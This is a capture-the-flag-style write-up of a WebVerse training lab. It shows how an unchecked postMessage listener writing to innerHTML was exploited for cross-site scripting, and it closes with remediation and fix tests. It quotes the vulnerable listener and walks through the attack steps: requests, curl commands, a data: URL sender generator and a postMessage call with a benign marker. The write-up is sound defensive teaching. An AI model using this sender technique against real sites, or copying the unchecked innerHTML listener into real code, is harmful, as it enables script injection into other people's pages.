> **Publication note:** This article documents an authorised WebVerse educational lab reproduced on 27 August 2026. Caido discovery and browser execution used two fresh instances because the first instance was replaced before the runtime step. Terminal and browser used another fresh instance for a clean before-and-after check. Commands use `<CAIDO_DISCOVERY_HOST>`, `<CAIDO_RUNTIME_HOST>`, and `<TERMINAL_LAB_HOST>`. Literal challenge flags are shown as `WEBVERSE{REDACTED}`.

## Executive Summary

RollWinded serves a ScoreCast page with a live bout feed. The page loads `scoreboard.js`, which listens for browser `message` events. The listener accepts any string and writes it directly to `innerHTML`. It does not check `event.origin` or `event.source`.

I opened the ScoreCast page from a separate sender page and posted a small HTML string. The string added `MMP_MARKER` to the feed and used an image error handler to change the document title. The WebVerse page then showed its solved banner, and `/__status.php` returned `solved: true`.

The Caido work captured the public page, both JavaScript files, the unsolved status, the sender, the rendered marker, and the final solved response. I repeated the HTTP parts with `curl` on a separate instance. That second run recorded `solved: false` before the browser step and `solved: true` after it.

> **CONFIRMED FINDING**
>
> RollWinded accepts cross-origin `postMessage` data without checking the sender. The same handler inserts the received string into `innerHTML`, which lets controlled HTML execute in the ScoreCast page.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | RollWinded |
| Difficulty | Easy |
| Reproduction date | 27 August 2026 |
| Public entry | `GET /` |
| Receiver script | `GET /static/js/scoreboard.js` |
| Status script | `GET /static/js/poll.js` |
| Status endpoint | `GET /__status.php` |
| Primary weakness | [CWE-346](/cwes/cwe-346/): Origin Validation Error |
| Chained weakness | [CWE-79](/cwes/cwe-79/): Cross-site Scripting |
| Runtime proof | Controlled marker, browser-side execution signal, solved banner, and solved status response |
| Evidence | Browser, Caido, first-party JavaScript, and `curl` |
| Caido reproduction | Passed after an explicit fresh-instance rebind |
| Terminal reproduction | Passed on one fresh instance with a clean `false` to `true` status change |

### Verified Attack Chain

```text
GET /
  > ScoreCast HTML
/static/js/scoreboard.js
  > message listener
  > no event.origin or event.source check
  > string data copied to innerHTML
/static/js/poll.js
  > /__status.php controls the solved banner
Separate sender page
  > opens the ScoreCast window
  > posts controlled HTML with postMessage
ScoreCast receiver
  > renders MMP_MARKER
  > runs the controlled onerror handler
/__status.php
  > solved changes from false to true on the Terminal instance
Stop
```

## 2. Scope and Evidence Limits

I stayed inside fresh RollWinded lab instances and stopped after the objective was confirmed.

- The Caido discovery instance and the Caido runtime instance are different. The article keeps that change visible instead of presenting them as one uninterrupted instance.
- The Terminal run uses one fresh instance and contains the clean `false` to `true` status check.
- The browser step is required. `curl` can retrieve the page, scripts, and status endpoint, but it cannot run `postMessage`, build a DOM, or execute JavaScript.
- The retained Caido marker screenshot shows controlled HTML in the feed. The solved banner and status response are the stronger retained proof that the handler executed in the target page.
- Same-origin policy still prevents the sender page from reading the target DOM. It does not stop the sender from posting a message to a window reference.
- I did not test cookie access, session theft, stored injection, server-side writes, persistence, or unrelated routes.
- Temporary lab hostnames remain visible because they explain which request belongs to which instance. They are not reusable secrets.
- Reusable cookies were already removed from the supplied screenshots. Literal flags are removed from the public copies.

The receiver behavior matches [MITRE CWE-346](https://cwe.mitre.org/data/definitions/346.html). The executable `innerHTML` sink adds [MITRE CWE-79](https://cwe.mitre.org/data/definitions/79.html). MDN also recommends checking the sender `origin` and, when needed, `source` before using message data, and warns that `innerHTML` is an injection sink.

## 3. Evidence-Led Chronological Reproduction

I started with the public page and followed only first-party references. The HTML named two scripts. `scoreboard.js` showed the message receiver and sink. `poll.js` showed how the page reads the solved state.

The runtime check used a separate sender page because the vulnerable path lives in the browser, not in a Replay request. The sender opened ScoreCast, waited for the page to load, then sent one controlled string. This is also why the Terminal section has a browser step between the two `curl` status checks.

The Caido instance expired during preparation, so I rebound the sender to a new fresh host before execution. The discovery evidence remains useful, but only the later host is used for the Caido solved response. The Terminal track removes that gap by completing the entire before-and-after check on one instance.

## 4. Caido/Burp Reproduction

### Step 1: Request the Public ScoreCast Page

I began with the public root route.

```http
GET / HTTP/1.1
Host: <CAIDO_DISCOVERY_HOST>
```

Equivalent command:

```bash
curl -i -sS 'https://<CAIDO_DISCOVERY_HOST>/'
```



**Figure 1: Public root request.** The request has no account or application credential.



**Figure 2: Public root response.** The server returns the ScoreCast document with `200 OK`.



**Figure 3: Browser baseline.** The live feed is in its normal state before the sender is used.

### Step 2: Follow the First-Party Script References

The root HTML loads two local JavaScript files:

```html
<script src="/static/js/scoreboard.js"></script>
<script src="/static/js/poll.js"></script>
```



**Figure 4: Script discovery.** The application itself points to both files, so no route guessing is needed.

### Step 3: Read the Message Receiver

```http
GET /static/js/scoreboard.js HTTP/1.1
Host: <CAIDO_DISCOVERY_HOST>
```

Equivalent command:

```bash
curl -sS 'https://<CAIDO_DISCOVERY_HOST>/static/js/scoreboard.js'
```



**Figure 5: Receiver source request.** This asks for the exact first-party file named by the page.



**Figure 6: Receiver and sink.** The listener accepts any string, does not inspect `e.origin` or `e.source`, and writes `e.data` to `innerHTML`.

The relevant code is short:

```javascript
window.addEventListener("message", function (e) {
  if (typeof e.data !== "string") return;
  var body = document.getElementById("sc-feed-body");
  if (!body) return;
  body.innerHTML = e.data;
});
```

### Step 4: Read the Solved-State Contract

```http
GET /static/js/poll.js HTTP/1.1
Host: <CAIDO_DISCOVERY_HOST>
```

Equivalent command:

```bash
curl -sS 'https://<CAIDO_DISCOVERY_HOST>/static/js/poll.js'
```



**Figure 7: Status script request.** This follows the second first-party reference from the root page.



**Figure 8: Status contract.** The page polls `/__status.php` and reveals the flag only when the JSON contains both `solved: true` and a flag value.

```javascript
fetch("/__status.php", { credentials: "include" })
  .then(function (r) { return r.json(); })
  .then(function (data) {
    if (data && data.solved && data.flag) reveal(data.flag);
  });
```

### Step 5: Record the Unsolved Control

```http
GET /__status.php HTTP/1.1
Host: <CAIDO_DISCOVERY_HOST>
```



**Figure 9: Status request.** The cookie value is removed, while the route and host remain visible.



**Figure 10: Negative control.** The discovery instance returns `{"solved":false,"flag":null}`.

### Step 6: Rebind to a Fresh Runtime Instance

The first host was replaced before I sent the browser message. I opened a new fresh instance and repeated the status route there before using the sender.

```http
GET /__status.php HTTP/1.1
Host: <CAIDO_RUNTIME_HOST>
```



**Figure 11: Runtime host check.** This request marks the switch to the host used for the remaining Caido runtime evidence.

### Step 7: Open the Controlled Sender

The target returns `X-Frame-Options: SAMEORIGIN`, so the sender opens a new window instead of embedding the page in an iframe.

The encoded URL contains the instance hostname. A reader with a new RollWinded instance must generate a new URL. Copying my old URL directly will only open the expired host from this reproduction.

#### Build the URL for a Fresh Instance

The sender must point to the same fresh RollWinded instance used by the Caido requests. An encoded URL copied from another run contains that old hostname and will not solve a new instance.

1. Start a fresh RollWinded instance.
2. Copy only its hostname from the address bar. Do not include `https://` or a path.
3. Expand the generator below and copy it into `rollwinded-build-data-url.py`.
4. Leave the editor, check the Python file, and run it with the fresh hostname.
5. Confirm that the decoded output contains the same hostname and both controlled markers.
6. Open the generated `data:` URL in Chromium.
7. Click **Send controlled message** and wait for the target window to load.
8. Return to Caido and request `/__status.php` from the same instance.



This screenshot shows the complete generator saved locally. Terminal commands are not pasted into this file. They are run after leaving the editor.



**Figure 12: Generator source.** The script accepts one fresh hostname, builds the controlled sender, URL-encodes it, and prints one `data:text/html,...` URL.

Run these commands outside the editor. Replace the placeholder with the hostname used in the current Caido run:

```bash
LAB_HOST='<CAIDO_RUNTIME_HOST>'

python3 -m py_compile rollwinded-build-data-url.py
python3 rollwinded-build-data-url.py "$LAB_HOST" > rollwinded-data-url.txt
```

Check the generated file before opening it:

```bash
printf 'INSTANCE_HOST=%s\n' "$LAB_HOST"
printf 'URL_PREFIX='
head -c 32 rollwinded-data-url.txt
printf '\nGENERATED_BYTES='
wc -c < rollwinded-data-url.txt

python3 -c "from pathlib import Path; from urllib.parse import unquote; s=unquote(Path('rollwinded-data-url.txt').read_text()); print('TARGET_OK=' + str('https://$LAB_HOST/' in s)); print('PAYLOAD_OK=' + str('MMP_EXECUTED' in s and 'MMP_MARKER' in s))"
```

Both checks must return `True`. Then open the generated URL:

```bash
chromium "$(tr -d '\r\n' < rollwinded-data-url.txt)"
```

The generated page should contain one **Send controlled message** button. Clicking it opens `https://<CAIDO_RUNTIME_HOST>/` and sends the controlled HTML string after the page loads.

#### Exact URL Used in This Reproduction

The block below is the exact encoded `data:` URL from my Caido/browser run. It stays in the article as reproduction evidence. Its temporary hostname should not be reused for another instance.



The next block is the same sender decoded into readable HTML and JavaScript. `<LAB_HOST>` shows the one value that changes between fresh instances. This is an explanation of the encoded URL, not a different exploit step.



The message sent to the target is:

```javascript
targetWindow.postMessage(
  '<span>MMP_MARKER</span>',
  "*"
);
```

The exact reproduced sender used `*` as its `targetOrigin`. It worked because the target receiver accepted the message without checking who sent it. For normal application code, both sides should use exact origins: the sender should specify the ScoreCast origin and the receiver should verify `event.origin` and `event.source`.



**Figure 13: Caido-track sender.** The button opens the current ScoreCast host and posts one known HTML string after the target loads.

### Step 8: Send the Message and Observe the Runtime Result

After I clicked the sender button, the ScoreCast feed rendered the controlled marker.



**Figure 14: Browser runtime.** `MMP_MARKER` appears inside the live feed. The sender used an image error handler for the JavaScript signal. The archived screenshot captures the marker; the solved result below is the stronger retained execution check.

The page then showed its solved banner.



**Figure 15: Solved page.** WebVerse reports that script executed on the ScoreCast board. The literal objective value is removed, but the success state remains visible.

### Step 9: Confirm the Final Status in Caido

```http
GET /__status.php HTTP/1.1
Host: <CAIDO_RUNTIME_HOST>
```



**Figure 16: Final status request.** The request targets the runtime instance used by the sender.



**Figure 17: Request and solved response.** The response returns `solved: true`. The flag value is replaced with `WEBVERSE{REDACTED}`.

## 5. Terminal/CLI Reproduction

The Terminal track uses another fresh instance. All HTTP checks stay in `curl`. The actual DOM step still runs in Chromium because a command-line HTTP client cannot execute `postMessage` or JavaScript.

Set the fresh host once:

```bash
LAB_HOST='<TERMINAL_LAB_HOST>'
```

### Step 1: Request the Public Page

```bash
curl -i "https://${LAB_HOST}/"
```



**Figure 18: Terminal baseline.** The fresh host returns `HTTP/2 200` and the ScoreCast HTML.

### Step 2: Find the First-Party Scripts

```bash
curl -sS "https://${LAB_HOST}/" | grep -n '<script'
```

Expected references:

```text
57:<script src="/static/js/scoreboard.js"></script>
58:<script src="/static/js/poll.js"></script>
```



**Figure 19: Script discovery.** The Terminal run reaches the same two files found through Caido.

### Step 3: Extract the Receiver and Sink

```bash
curl -sS \
  "https://${LAB_HOST}/static/js/scoreboard.js" \
  | grep -n -A8 -B3 'addEventListener("message"'
```



**Figure 20: Receiver source.** The independent client sees the same missing sender check and the same `innerHTML` assignment.

### Step 4: Extract the Status Contract

```bash
curl -sS \
  "https://${LAB_HOST}/static/js/poll.js" \
  | grep -n -A18 -B8 '__status.php'
```



**Figure 21: Status contract.** The script reads JSON from `/__status.php` and only reveals the flag when the lab is solved.

### Step 5: Record the Pre-Exploit Status

```bash
curl -sS "https://${LAB_HOST}/__status.php"
```

Observed result:

```json
{"solved":false,"flag":null}
```



**Figure 22: Terminal negative control.** This is the before state for the same instance used in the final Terminal check.

### Step 6: Run the Browser-Dependent Message Step

The Terminal track still needs Chromium for this one step. `curl` can fetch the application and verify its status, but it cannot execute `postMessage` or the target JavaScript.

The sender must be rebuilt with the current Terminal instance hostname. Use the same generator from Caido Step 7 and keep the output in a file:

```bash
python3 -m py_compile rollwinded-build-data-url.py
python3 rollwinded-build-data-url.py "$LAB_HOST" > rollwinded-data-url.txt
ls -lh rollwinded-data-url.txt
```



**Figure 23: Generator execution.** Python accepts the helper, the fresh hostname is passed as one argument, and the encoded URL is written to `rollwinded-data-url.txt`.

Check the output shape and size:

```bash
printf 'INSTANCE_HOST=%s\n' "$LAB_HOST"
printf 'URL_PREFIX='
head -c 32 rollwinded-data-url.txt
printf '\nGENERATED_BYTES='
wc -c < rollwinded-data-url.txt
```



**Figure 24: Generated URL file.** The output begins with `data:text/html,` and contains one encoded sender page.

Decode the file locally and confirm that it points to the current host and still contains both controlled markers:

```bash
python3 -c "from pathlib import Path; from urllib.parse import unquote; s=unquote(Path('rollwinded-data-url.txt').read_text()); print('TARGET_OK=' + str('https://$LAB_HOST/' in s)); print('PAYLOAD_OK=' + str('MMP_EXECUTED' in s and 'MMP_MARKER' in s))"
```



**Figure 25: Local generator validation.** `TARGET_OK=True` confirms that the sender opens the fresh instance. `PAYLOAD_OK=True` confirms that the generated message still contains the two known markers.

Open the generated sender in Chromium:

```bash
chromium "$(tr -d '\r\n' < rollwinded-data-url.txt)"
```



**Figure 26: Fresh-instance sender.** The generated `data:` URL opens as a local page with one button. Click **Send controlled message**, allow the new target window if Chromium blocks the popup, and wait about three seconds.

This produces a new payload for the current Terminal host. Do not reuse the archived URL below on another instance.

The following block is the exact URL used during my Terminal reproduction. It remains here so the recorded command, screenshot, and payload can be compared.



Decoded, the message sent by that URL is:

```javascript
targetWindow.postMessage(
  '<span>MMP_MARKER</span>',
  "*"
);
```



**Figure 27: Browser result on the Terminal instance.** The ScoreCast page reports script execution and shows the solved state. The literal flag is removed.

### Step 7: Record the Post-Exploit Status

```bash
curl -sS "https://${LAB_HOST}/__status.php"
```

Public result:

```json
{"solved":true,"flag":"WEBVERSE{REDACTED}"}
```



**Figure 28: Terminal positive result.** The same host that returned `solved: false` now returns `solved: true`.

## 6. Controls and Results

| Check | Client | Result | What it tells us |
| --- | --- | --- | --- |
| `GET /` | Caido and `curl` | `200 OK` | The ScoreCast page is publicly reachable. |
| Root HTML script review | Caido and `curl` | Two first-party scripts | The next steps come from the page, not route guessing. |
| `scoreboard.js` review | Caido and `curl` | No `origin` or `source` check; `e.data` reaches `innerHTML` | The receiver trusts the sender and the HTML string. |
| `poll.js` review | Caido and `curl` | Polls `/__status.php` | The solved banner has a clear server status contract. |
| Pre-exploit status | Caido discovery and Terminal | `solved: false` | The objective was not already complete in those fresh instances. |
| Controlled sender | Browser | Marker rendered and solved banner appeared | The message reached the target receiver and triggered the lab execution path. |
| Post-exploit status | Caido runtime and Terminal | `solved: true` | WebVerse accepted the result. |
| Same-instance differential | Terminal | `false` to `true` | The before and after states belong to one fresh host. |

## 7. Root Cause and Classification

The primary issue is not `postMessage` itself. Cross-origin messaging is a normal browser feature. The problem is that RollWinded receives a message without checking the sender:

```javascript
window.addEventListener("message", function (e) {
  if (typeof e.data !== "string") return;
  body.innerHTML = e.data;
});
```

The handler should make two decisions before it uses `e.data`:

1. Is `event.origin` the exact trusted control-panel origin?
2. Is `event.source` the expected window object?

That missing trust check is why [CWE-346](/cwes/cwe-346/) is the primary mapping. The next line sends the untrusted string to an HTML parser. That execution layer is why [CWE-79](/cwes/cwe-79/) is included as the chained mapping.

The `typeof e.data === "string"` check only verifies a data type. It does not verify the sender or make an HTML string safe.

## 8. Confirmed Impact

The confirmed result is JavaScript execution in the ScoreCast page through a cross-origin message. The test used a fixed marker and a document-title change, then stopped when WebVerse marked the lab solved.

This article does not claim access to cookies, credentials, private user data, or server-side functions. Those effects were not tested. The practical risk in another application would depend on what the target origin exposes to JavaScript and which users can be made to open or retain a reference to that window.

## 9. Remediation

### Validate the Exact Sender

Allow only the expected origin and window:

```javascript
const EXPECTED_ORIGIN = "https://control.example.com";
const expectedWindow = window.opener;

window.addEventListener("message", function (event) {
  if (event.origin !== EXPECTED_ORIGIN) return;
  if (event.source !== expectedWindow) return;

  // Continue only after the message shape is checked.
});
```

Do not use substring checks, `endsWith()` checks, or an origin copied from the message itself.

### Use a Small Message Schema

Do not accept free-form HTML. Accept an object with known fields and reject everything else:

```javascript
if (
  !event.data ||
  typeof event.data !== "object" ||
  event.data.type !== "feed-update" ||
  typeof event.data.text !== "string"
) {
  return;
}
```

### Render Text as Text

If the feed only needs text, use `textContent`:

```javascript
body.textContent = event.data.text;
```

If formatted HTML is a real requirement, use a well-maintained sanitizer with a narrow allowlist and keep sender validation in place. Sanitization does not replace the origin check.

### Set an Exact Sender `targetOrigin`

The trusted control panel should also send to the exact ScoreCast origin:

```javascript
scorecastWindow.postMessage(message, "https://scorecast.example.com");
```

## 10. How to Verify the Fix

Repeat these checks after the receiver is changed:

1. Send the original payload from an untrusted origin. The feed and document title must not change.
2. Send a correctly shaped message from the trusted origin but the wrong window object. It must be rejected.
3. Send malformed objects, strings, and HTML event-handler payloads. None should reach an HTML sink.
4. Send valid plain text from the trusted origin and expected source. It should appear as text.
5. Check the DOM and confirm the application uses `textContent` or a safe rendering path instead of assigning untrusted data to `innerHTML`.
6. Recheck `/__status.php` only as a lab control. In a real application, add automated browser tests for trusted and untrusted senders.

## 11. Conclusion

RollWinded became clear as soon as I followed the two scripts named by the public page. `scoreboard.js` accepted string messages from any sender and placed them in `innerHTML`. `poll.js` showed the status check used by the solved banner.

The browser sender joined those two facts. It opened ScoreCast, posted one controlled HTML string, and the target rendered the marker and reached its solved state. The separate Terminal run then gave the clean before-and-after result on one fresh instance.

The fix is small in concept: trust only the exact sender, validate a narrow message shape, and render text as text.

### Final WebVerse Result


**Figure 29: Final lab result.** WebVerse accepted the RollWinded objective and records the challenge difficulty as Easy.

## References

- [MITRE CWE-346: Origin Validation Error](https://cwe.mitre.org/data/definitions/346.html)
- [MITRE CWE-79: Improper Neutralization of Input During Web Page Generation](https://cwe.mitre.org/data/definitions/79.html)
- [MDN: Window.postMessage()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
- [MDN: Element.innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)
